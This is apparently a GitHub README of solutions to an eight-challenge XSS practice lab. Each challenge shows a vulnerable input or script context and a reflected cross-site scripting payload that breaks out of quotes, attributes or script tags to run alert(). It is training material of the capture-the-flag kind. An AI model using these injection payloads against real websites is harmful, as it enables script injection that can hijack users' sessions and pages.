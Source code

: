 # XSS-Practice-Lab


### Lab Link : http://leettime.net/xsslab1/chalg1.php

### Author : Sheikh Rishad

<XSS Practice Lab/>


## Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




## Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


## Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


## Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


## Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


## Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


## Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


## Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
